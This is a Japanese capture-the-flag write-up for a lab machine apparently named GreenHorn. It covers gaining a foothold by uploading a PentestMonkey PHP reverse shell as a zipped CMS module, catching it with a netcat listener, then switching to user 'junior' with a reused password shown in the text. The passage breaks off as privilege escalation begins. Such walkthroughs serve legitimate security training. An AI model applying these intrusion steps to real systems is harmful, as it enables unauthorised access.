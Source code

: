 
---

# Foothold

記事を書いているMr.Greenというアカウントがあるのかと思ったけど、無さそう。
リバースシェルを[]moduleにアップロード、インストールして、リバースシェルを確立する。
正しく動いているときは、特にリバースシェルに明示的にアクセスしないで、勝手にリバースシェルが確立される。

リバースシェルは、[https://www.revshells.com/]を使用して、PHP PentestMonkeyを使う。
注意点として、.zipと.phpの前の名前は同じにしないと正しくインストールされないぽい。
```bash
nano shell.php
zip shell.zip shell.php
```

他のタブでリバースを待ち受ける。
```bash
sudo nc -lvnp <PORT>
```

リバースシェルが確立されて、whoamiをすると、Apache サーバーの Web 管理者であるwww-dataであることがわかる。
```bash
$ whoami
www-data
```

---

# Lateral Movement
ユーザーフラグは、juniorというwww-dataとは違うアカウントのhomeフォルダ以下にある。
先ほどのadminのパスワードと同じパスワードでユーザー切り替えができる。
```bash
www-data@greenhorn:/home$ su - junior
su - junior
Password: iloveyou1

```


---

# Privilege Escalation

juiorの/homeの中にuser.txtの他にもpdfファイルがあったのでみてみる。